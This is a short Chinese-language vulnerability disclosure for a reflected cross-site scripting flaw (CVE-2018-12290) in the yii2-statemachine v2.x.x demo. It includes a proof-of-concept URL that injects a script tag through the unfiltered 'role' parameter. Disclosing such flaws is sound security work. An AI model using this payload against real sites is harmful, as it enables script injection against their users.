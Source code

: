 ### 漏洞简介  

|漏洞名称|上报日期|漏洞发现者|产品首页|软件链接|版本|CVE编号|
--------|--------|---------|--------|-------|----|------|
|yii2-statemachine-v2.x.x存在XSS漏洞|2018-06-12|longer|[https://github.com/ptheofan/yii2-statemachine-demo](https://github.com/ptheofan/yii2-statemachine-demo) | [https://github.com/ptheofan/yii2-statemachine-demo](https://github.com/ptheofan/yii2-statemachine-demo) |v2.x.x| [CVE-2018-12290](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-12290)|  

#### 漏洞概述  

> 由于role参数过滤不严格，导致可以插入js代码造成跨站脚本攻击。如将role参数赋值为`guest'%22()%26%25<acx><ScRiPt%20>prompt(123555)</ScRiPt>`，并进行get方式提交，可造成跨站脚本攻击。   

### POC实现代码如下：  

> exp代码如下：  

``` html
https://127.0.0.1/?role=guest'%22()%26%25<acx><ScRiPt%20>prompt(123555)</ScRiPt>
```
### POC截图效果如下：

